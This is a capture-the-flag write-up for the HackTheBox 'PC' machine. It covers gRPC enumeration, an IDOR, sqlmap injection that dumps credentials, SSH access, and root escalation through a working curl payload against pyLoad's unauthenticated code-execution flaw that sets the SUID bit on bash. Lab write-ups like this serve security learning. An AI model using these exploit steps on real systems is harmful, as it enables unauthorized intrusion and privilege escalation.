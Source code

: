 ```yaml
---
title: PC
date: 2023-08-22 15:53:16 +0800
categories: [Hackthebox, PC]
tags: [htb, ctf, pentesting, web, unix, prev-esc]
---
```



<img src="../../assets/global/banner.png" alt="banner image">


### Description:

This machine is so intresting because you have to deal with grpc protbuf to get the application working so then you can feed your burp history to find an argument that is exploitable

### Difficulty:

`easy`


## Enumeration

**nmap** scan 
```shell
PORT      STATE    SERVICE VERSION
22/tcp    open ssh
50051/tcp open  unknown # After searching found that this port is for gRPC protbuf
```
### enum gRPC using **grpcurl**

```shell
└─$ grpcurl -plaintext pc.htb:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```
#### now it's time to connect to this api using **grpcui** this tool will simulate the front end for the api so that we can intract with the application

```shell
└─$ grpcui -plaintext pc.htb:50051                
gRPC Web UI available at http://127.0.0.1:42419/         
```
#### and now we have this great ui to intract with

<img src="../../assets/pc/1.png" alt="example image">

## Foothold

### we have three indpoints *regester*, *login* and *getInfo*

#### lets's create a new account using regester endpoint

<img src="../../assets/pc/2.png" alt="example image">

#### now that we created our account with username called *haitkadir* let's login and se what we get

<img src="../../assets/pc/3.jpg" alt="example image">

#### once we loged in we got two things *id* and *token*, now let's navigate to *getInfo* endpoint and pass the *id* and *token*

#### request
<img src="../../assets/pc/4.jpg" alt="example image">

#### response

<img src="../../assets/pc/5.png" alt="example image">

#### here we got this message from which is the user info :*Will update soon*

#### now let's update the *id* to see if it's vulnerable to an *IDOR* 

#### request
<img src="../../assets/pc/6.png" alt="example image">

#### response
<img src="../../assets/pc/7.png" alt="example image">

#### and yeah it's vulnerable and we got some info from admin account but only what we can get with this one is is this message.

#### but now we know one thing that could be usefull the application uses the *id* variable,

#### so let's intercept the request using **burp** and copy it to a file

<img src="../../assets/pc/8.png" alt="example image">

### now I have the request saved in a file let's run the **sqlmap** against it

```shell
└─$ sqlmap -r request.txt ip id --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

.
.

[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[12:12:51] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/haitkadir/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[12:12:51] [INFO] fetching columns for table 'accounts' 
[12:12:51] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| <password here>        | sau      |
+------------------------+----------+

```


## Lateral Movement

### now that we have cridintials for sau user let's ssh to the box

```shell
└─$ ssh sau@pc.htb                    
sau@pc.htb's password: 
Last login: Wed Aug 23 13:33:20 2023 from 10.10.14.212
sau@pc:~$ 
```

## Privilege Escalation

### enum

```shell
sau@pc:~$ ps -ef | grep root
[..]
[..]
root        1066       1  0 04:17 ?        00:00:27 /usr/bin/python3 /usr/local/bin/pyload
```
#### checking which port is binded to this service 

```shell
sau@pc:~$ ss -lntp
State        Recv-Q       Send-Q              Local Address:Port                Peer Address:Port       Process       
[..]
LISTEN       0            128                       0.0.0.0:9666                     0.0.0.
[..]
```
#### as we can see here it's running on port 9666 


#### in this procces we can see that the root running the *pyload* which is a download manager,

#### and it's vulnerable to unauthinticate remote code execution

### Exploit

```shell
sau@pc:~$ cat exp.sh 
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2bs%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:9666/flash/addcrypted2'

# this \"chmod%20u%2bs%20/bin/bash\"  is equal to this ==> "chmod u+s /bin/bash"
```


```shell
sau@pc:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

sau@pc:~$ ./exp.sh 
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Wed, 23 Aug 2023 17:03:33 GMT
Server: Cheroot/8.6.0
 
sau@pc:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
#### now that we set the *SUID* bit for **bash** let's get root

```shell
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)
bash-5.0# 
```

# Thanks for reading
